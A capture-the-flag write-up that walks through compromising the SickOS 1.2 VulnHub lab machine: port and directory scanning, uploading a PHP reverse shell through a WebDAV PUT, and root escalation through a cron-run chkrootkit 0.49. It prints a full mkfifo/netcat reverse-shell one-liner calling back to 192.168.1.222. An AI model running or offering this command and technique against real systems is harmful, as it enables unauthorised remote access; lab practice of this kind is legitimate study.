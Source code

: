```yaml
---
title: SickOS 1.2 - VulnHub VM Challenge
date: 2021-08-04 20:36:58
author: 01_susil
author_url: https://twitter.com/Susilkessav1
categories:
 - Pentest
 - VulnHub
tags:
 - Vulnhub
 - WriteUp
 - SickOS 1.2
   

---
```


How to crack SickOS1.2 VM lab without Metasploit.

tl;dr

+ Chkrootkit 0.49
+ Privilege escalation using Cronjob.

<!--more-->

Solved by: [01_susil](https://twitter.com/Susilkessav1)

This is a Linux box with IP 192.168.12.9

## Initial Analysis

Doing a Port scan [nmap enumerator](https://github.com/nmap/nmap), Basic scan.

![Nmap](first.png)

The system is running OpenSSH, web server lighttpd 1.4.28. Running a background check for known vulnerabilites.

Opening up the browser to check for more details.

![website](second.png)

There was nothing much information on this page. It contained only a meme

Opening up the [Dirb](https://github.com/v0re/dirb) Web Content Scanner to check for more information.

![dirb](third.png)

/test/ directory has been found from Dirb scan.

Let's Checkout the /test directory.

![test](fourth.png)

It looks like a WebDAV directory. WebDAV is a long-standing protocol that enables a webserver to act as a fileserver and support collaborative authoring of content on the web.

![curl](fifth.png)

PUT method is meant for "uploading" stuff to a particular URI, or overwriting what is already in that URI.
Here the PUT method is allowed! Uploading a [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) should work.

## Exploit

![revshell](sixth.png)

Netcat is a utility which reads and writes data across network connections using TCP or UDP protocol. 
Setup [Netcat](https://www.geeksforgeeks.org/netcat-basic-usage-and-overview/) listener to spawn a reverse shell.

![shell](seventh.png)

We don't have root access till now, let's list the directory.

![ls](eighth.png)

![cron](ninth.png)

Checking [cron jobs](https://kubernetes.io/docs/concepts/workloads/controllers/cron-jobs/), found the [chkrootkit](https://www.exploit-db.com/exploits/33899) and its version.
Cron job is a time-based job scheduler. Users use cron to schedule jobs to run periodically at fixed times.
Chkrootkit is a shell script that checks system binaries for rootkit modification.

![expl](tenth.png)

Create a file named Update which contained 
  - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.222 443 >/tmp/f

rm removes /tmp/f 
mkfifo creates a fifo file with name pathname /tmp/f
2>&1 command pipe stdout and stderr to command.
nc is netcat tool to spawn a reverse shell.  
Now to make update file as executed file I'm using " chmod 777 update ".

Now cronjob will execute the update file every minute. Setup a netcat listener on port 443 which is mentioned in the update file.

![root](eleventh.png)

And that's how I solved SickOS 1.2!
